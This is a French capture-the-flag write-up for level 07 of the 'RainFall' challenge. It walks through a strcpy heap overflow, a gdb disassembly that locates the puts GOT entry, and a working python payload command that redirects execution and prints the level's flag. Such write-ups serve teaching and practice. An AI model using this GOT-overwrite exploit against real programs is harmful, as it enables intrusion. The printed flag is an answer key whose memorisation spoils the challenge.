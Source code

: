 # Level 07

- Dans le code un faille est visible quand on essaye met des argument trop long:
```
strcpy(i1->name, argv[1]);
printf("addr: %p\n", i2->name);
strcpy(i2->name, argv[2]);
# on rajoute un printf dans le code et on compile
```
- en le lancant on voit que le premiere argument overwrite l'addresse de i2->name se qui fait qu'on peut ecrire n'importe ou dans la memoire
```
./a.out AAAABBBBCCCCDDDDEEEEFFFF 1111122223333
addr: 0x46464646 # ascii for FFFF
Segmentation fault
```
- on peut voir qu'on peut ecrire dans le [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table)
```
Il fait correspondre les symboles du code de programmation à leurs adresses mémoire absolues correspondantes pour faciliter le code indépendant de la position (PIC) et les exécutables indépendants de la position qui sont chargés à une adresse mémoire différente chaque fois que le programme est lancé.
```
<pre>
gdb-peda$ disass main
   0x080485f7 <+214>:   call   <strong>0x8048400</strong> <puts@plt>
   0x080485fc <+219>:   mov    eax,0x0
   0x08048601 <+224>:   leave  
   0x08048602 <+225>:   ret    
End of assembler dump.
gdb-peda$ disass 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     <strong>jmp    DWORD PTR ds:0x8049928</strong>
   0x08048406 <+6>:     push   0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
gdb-peda$ x 0x8048400
<strong>0x8048400 <puts@plt>:   0x992825ff</strong>
</pre>
- Il suffit donc d'ecrire par dessus cet adresse pour qu'un jump soit fait vers la fonction m()
```
level7@RainFall:~$ ./level7 $(python -c "print('AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1631281606
```
